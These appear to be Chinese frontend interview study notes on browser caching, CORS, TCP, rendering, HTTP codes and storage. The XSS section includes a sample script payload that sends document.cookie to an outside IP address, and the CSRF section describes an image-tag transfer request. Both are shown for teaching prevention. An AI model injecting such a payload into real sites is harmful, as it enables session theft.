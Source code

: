 # 浏览器

### 问题一 ：前端性能优化 

#### 浏览器缓存
    合理运用浏览器缓存可以减少服务器压力，提高网页响应速度,浏览器会根据响应header里的缓存相关字段来设置缓存，浏览器缓存分为强缓存和协商缓存，优先强缓存
    强缓存:强制使用缓存 通过响应头 Cache-Control：（private,public,no-cache,mag-age=0,no-store）字段控制  如果传了no-cache 证明需要使用协商缓存
    协商缓存:每次使用前需要和服务器协商一下是否使用缓存，服务器通过响应头（Etag：1）决定是否应用协商缓存， (以后每次请求 都会在头里带上If-None-Match:1) 
    如果返回304 继续使用缓存，如果服务器数据已更新（修改Etag值），重新返回200 和新的responseBody数据 替换缓存. 
#### 图片
    使用精灵图 减少图片资源，可以使用图片懒加载
#### 压缩
    使用gzip压缩服务返回的数据 请求头设置（Accept-Encoding: GZIP, Deflate） 服务器 设置响应头Content-Encoding: GZIP

### 问题二 ：对跨域的理解和解决
    浏览器出于安全考虑，一个源的网站不允许与另一个源的网站交互，同源即 协议 主机 端口都相同 执行脚本的时候会检测是否同源ajax不同源的会被拦截
    跨域资源嵌入是可以的  <img> <script> <link> <iframe>

    1.通过后台响应头设置允许跨域 
    2.通过nginx 监听同一端口  通过/api 路径来区分不同服务的访问

### 问题三 ：csrf和xss攻击理解和预防
    csrf 利用浏览器信任 统一domain下的请求，会携带cookie  a打开银行网站,登录后没关闭此窗口，然后打开了含有攻击性的网站,网站内有<img src='http://转账代码'> 头中会携带cookie
    预防 ：1.数据安全性高高的避免使用 get请求 ，2.用token认证  3.对接口加验证码校验
    xss 嵌入恶意的js代码然后获取用户cookie  比如博客评论 在内容里嵌入<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script> 我的服务就拿到了cookie
    预防：1.过滤特殊字符  2. 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。

### 问题四 tcp 连接的三次握手为什么不能改成2次
    考虑到client A 请求与服务B建立连接,由于网络原因这次报文一定时间内没到达B ，A又发起了一次连接现在开始传数据没传完后关闭，一开始那次请求，到达了B ,B现在发送确认请求，
    然后一直等着A 来发送数据，A本身已经不想发送数据了，这样造成了服务资源浪费。
### 问题五 简述tcp连接3次握手过程
    第一次握手，客户端主动连接服务器，发送初始序列号'seq =x','SYN = 1'同步标志 进入SYN_SEND同步发送状态
    第二次握手，服务器收到消息后 发送确认同步标志 'SYN=1'和确认标志'ACK=1',并发送自己的序列号'seq=y'和客户端确认序列'ack=x+1' 进入同步接收'SYNC_RECV'状态
    第三次握手，客户端接收后 发送确认标志 'ACK=1'和自己的序列号'seq=x+1'与服务器确认号'ack=y+1'进入建立连接状态，服务器收到后也进入连接状态 
### 问题五 简述tcp和udp的区别
   TCP：                                                                        UDP：
   面向连接，可以传输相对较大数据                                                  无连接，可以传输的数据相对较小
   使用流量控制，拥塞控制保证可靠                                                  不使用流量控制和拥塞控制，尽最大努力交付
   保证传输顺序                                                                   不保证传输顺序
   提供校验和，确认应答，流量控制，拥塞控制 超时重传，序列号，连接管理       
   适用于可靠传输，文件传输                                                        应用于直播，网络电话，视频会议 
### 问题六 简述tcp粘包解决方案
   粘包 服务端会将间隔时间较小连续发送的包粘起来组成一个大包 
   解决：将每次传输的消息分为消息头和消息体，消息头包含这次传输的总长度，服务端解析

### 问题七 浏览器渲染过程
   自上而下先解析<html>形成'DOM Tree'
   如果解析到<Link><Style>解析css 形成'CSS Tree' html和css解析开始并行解析
   遇到<Script>停止文档解析 开始解析js 
   'Dom Tree 和CSS Tree'生成后，将两者结合布局，计算大小位置等,生成'render Tree'
   根据计算好的信息，调用paint ，将内容显示在屏幕上
### 问题八 重绘 回流
   重绘：'render tree'中一些影响外观，但是不影响布局的属性改变，比如bgc-color，整棵树不需要重新构建
   回流： 布局，元素尺寸大小改变，需要重新绘制整棵树，就是回流，页面第一次加载就是回流
### 常见的兼容性问题
   浏览器由于版本不同，内核不同，导致最后渲染出来的的结果有不同，通常使用normalize抹平样试差异 
   默认边距也可能不同
   ie4-8 不支持css3 opacity属性，可以通过css filter来设置
   ie4-8 不支持媒体查询，不支持html5新标签 
   ie4-8 window.event.returnValue =false 阻止默认行为      window.event.cancelBubble = true 防止事件冒泡
   webkit内核 event.preventDefault()                      event.stopPropagation()
### 浏览器默认行为（直接在处理函数中加return false也会阻止默认行为）
    <a href="">会默认跳转地址 通过监听事件 阻止默认行为 就不能跳转了
    <input> 获得焦点后 敲击键盘会自动输入 阻止后 键盘输入无效
    type为submit的input 或者<button>都会触发表达提交，阻止后不提交
### 浏览器本地存储 
    localStorage 存储大约5m大小 永久存储除非删掉
    sessionStorage 存储大约5m大小 关闭浏览器就是失效
    cookie 存储大约4k 不设置过期时间的话 关闭浏览器会失效
    session 存储在服务端 通过服务器设置 一般会以键值对存储在cookie中
    下次请求浏览器会自动带上sessionid去服务器，服务器自动解析sessionid，
    获取session 通过session获取session存储的信息
### 事件委托机制
    由于事件默认是向上冒泡的，操作子盒子的事件可以写在父盒子上，让父盒子去执行
    比如ul 下面多个li 不需要给每个li都设置点击事件，父盒子设置设置点击事件，
    点击子盒子也可以拿到子盒子的标签。
### http状态码
    200 ok
    204 ok 无内容返回
    301：永久重定向；
    302：临时移动，可使用原有URI；
    304：资源未修改，可使用缓存；
    400 服务器无法解析客户端请求
    401 需要请求身份认证
    403 服务器拒绝执行此请求
    404 服务器找不到客户请求资源
    500 服务器内部错误
    502 网关出问题
    503 服务器挂了

### 浏览器 history对象的方法和属性
    length      返回浏览器历史列表中的URL数量
    back()      加载 history 列表中的前一个URL
    forward() 加载 history 列表中的下一个URL
    go()         加载history列表中的某个具体页面。
###  viewport 用于适配手机端 
https://blog.csdn.net/sinat_32290679/article/details/78595760 博客地址  
    为了能在移动端可以正常的访问pc端的浏览器，移动浏览器开发商默认了iphone浏览器的文档宽度为980px, 这样访问pc网页的时候，才不会使网页结构崩溃，想一想，假设直接用 320px,那么当我们访问pc端网页，由于pc一般是以1024px作为总宽度的，如果一行有两个元素的宽度之和大于 320px,那么在移动端可能发生一个元素被挤到另外一行的情况。
    
     没有这个 <meta name="viewport" content="width=device-width,initial-scale=1.0" /> 
    所以在iphone移动端访问时，浏览器会先把文档渲染到980px宽度里的文档里，然后在(按一定比例)显示到手机上，所以才会出现以上左边有留白的情况。即使你宽度是1200也不会出滚动条

  

    有这个 <meta name="viewport" content="width=device-width,initial-scale=1.0" /> 
      手机默认布局视口 980px  渲染后 我们看到的是虚拟视口
    改变手机默认布局窗口 和缩放比例 1.0默认不缩放html元素
    在当前设备下 渲染 比如xr 会按照414px 布局视口去渲染 
    如果缩放比例改为2.0 会将元素先放大 再在414px里渲染 414px 放不下 会出滚动条
